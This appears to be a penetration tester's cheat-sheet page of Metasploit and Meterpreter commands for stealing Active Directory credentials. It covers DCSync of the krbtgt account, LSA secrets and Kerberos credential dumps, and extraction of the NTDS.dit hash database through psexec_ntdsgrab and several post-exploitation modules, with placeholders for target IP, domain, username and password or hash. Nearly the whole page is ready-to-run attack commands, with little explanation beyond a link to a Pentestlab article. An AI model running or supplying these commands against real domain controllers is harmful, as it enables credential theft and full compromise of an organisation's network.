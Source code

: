 # Metasploit

## 01 - DC Synchronization

```
meterpreter > dcsync krbtgt

meterpreter > dcsync_ntlm krbtgt
```

## 02 - LSASS Injection

```
meterpreter > lsa_dump_secrets
```

## 03 - Kerberos

```
meterpreter > creds_kerberos
```

## 04 - NTDS

### 4.1 - SMB Port

```
msf > use auxiliary/admin/smb/psexec_ntdsgrab

msf auxiliary(admin/smb/psexec_ntdsgrab) > options

msf auxiliary(admin/smb/psexec_ntdsgrab) > set rhosts <IP>

msf auxiliary(admin/smb/psexec_ntdsgrab) > set smbdomain <domain_name>

msf auxiliary(admin/smb/psexec_ntdsgrab) > set smbuser <username>

msf auxiliary(admin/smb/psexec_ntdsgrab) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf auxiliary(admin/smb/psexec_ntdsgrab) > run
```

### 4.2 - Interactive Session

Enumerate the **DSA database file** via registry.

```
meterpreter > reg enumkey [-r <domain_controller_IP>] -k HKLM\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -v "DSA Database file" [-w <64>]
```

Retrieve credentials from NTDS.

```
meterpreter > run post/windows/gather/credentials/domain_hashdump

meterpreter > run post/windows/gather/file_from_raw_ntfs

meterpreter > run post/windows/gather/ntds_location

meterpreter > run post/windows/gather/ntds_grabber cleanup=true download=true
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Windows/Archive Files/Zip|Windows Archive Files]]

### Pentestlab

- [Pentestlab: Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)